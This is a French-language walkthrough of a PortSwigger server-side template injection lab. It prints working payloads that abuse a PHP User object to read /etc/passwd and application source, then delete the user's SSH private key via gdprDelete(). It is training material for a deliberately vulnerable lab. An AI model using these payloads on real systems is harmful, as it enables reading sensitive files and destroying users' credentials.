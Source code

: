 # Lab

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit

## Payload

En publiant une image qui n'en est pas une, on voit une erreur qui nous indique deux fichiers :

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/html in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/index.html', 'text/html')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

- `/home/carlos/User.php`
- `/home/carlos/avatar_upload.php`


Et on apprends que l'avatar est mis à jour : `User->setAvatar('/tmp/index.html', 'text/html')`


On peut essayer de lire `/etc/passwd` : `blog-post-author-display=user.setAvatar('/etc/passwd',+'image/jpeg')`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
```

On peut lire `/etc/avatar_upload.php` : `blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/jpeg')`

```php
<?php

require_once("./User.php");

if ($_FILES['avatar']['error'] !== 0) {
    throw new Exception("Error in file upload: " . $_FILES['avatar']['error']);
}

if (strpos($_FILES['avatar']['name'], "/") !== false || strpos($_FILES['avatar']['name'], ".") === false) {
    throw new Exception("Uploaded file name is invalid: " . $_FILES['avatar']['name']);
}

$file = "/tmp/" . $_FILES['avatar']['name'];
if (!move_uploaded_file($_FILES['avatar']['tmp_name'], $file)) {
    throw new Exception("Could not move uploaded file '" . $_FILES['avatar']['tmp_name'] . "' to '" . $file . "'");
}

$user = new User($_POST['user'], null, null, null);
$user->setAvatar($file, $_FILES['avatar']['type']);
header('Location: ./');

?>
```

On peut lire `/home/carlos/User.php` : `blog-post-author-display=user.setAvatar('/home/carlos/User.php',+'image/jpeg')`

```php
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

On voir la méthode `gdprDelete()` qui supprime l'avatar. En mettant notre avatar à `/home/carlos/.ssh/id_rsa` puis en appellant la méthode `gdprDelete()` on peut supprimer la clé privée de Carlos.

`blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/jpeg')`

`blog-post-author-display=user.gdprDelete()`

Attention à bien faire un appel pour que la méthode soit appelée, sinon rien ne se passe.